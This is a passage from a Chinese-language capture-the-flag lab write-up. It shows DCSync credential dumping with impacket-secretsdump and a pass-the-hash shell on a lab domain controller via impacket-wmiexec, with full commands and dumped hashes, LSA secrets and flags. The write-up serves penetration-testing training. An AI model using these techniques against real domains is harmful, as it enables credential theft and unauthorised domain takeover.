 _| |_     | | // | |, | |     | \_/ |, | | | | | |  
|_____|   [___]\'-;__/[___]    '.__.'_/[___||__||__] 

flag03: flag{83b222de-2b0e-4a16-a576-a9566ff0243d}

```

## 第四关

> 请尝试利用黑客留下的域控制器后门获取域控的权限。

### DCSync

主机 `FILESERVER$` 被添加到 `DOMAIN CONTROLLERS` 和` ENTERPRISE DOMAIN CONTROLLERS` 组中，可以直接对域控进行 `DCSync` 攻击。

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-secretsdump xiaorang.lab/administrator@FILESERVER.xiaorang.lab -target-ip 172.22.60.42 -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5第四关
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM 
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

### PTH域控

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-wmiexec xiaorang.lab/Administrator@172.22.60.8 -hashes :c3cfdc08527ec4ab6aa3e630e79d349b -codec GBK -shell-type powershell

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> type C:\Users\Administrator\flag\flag04.txt
 :::===== :::      :::====  :::====  :::  === :::======= 
 :::      :::      :::  === :::  === :::  === ::: === ===
 ======   ===      ======== =======  ===  === === === ===
 ===      ===      ===  === === ===  ===  === ===     ===
 ===      ======== ===  === ===  ===  ======  ===     ===

flag04: flag{5b808ab4-dd48-4377-9806-cb88cd71aeb4}

PS C:\> 

```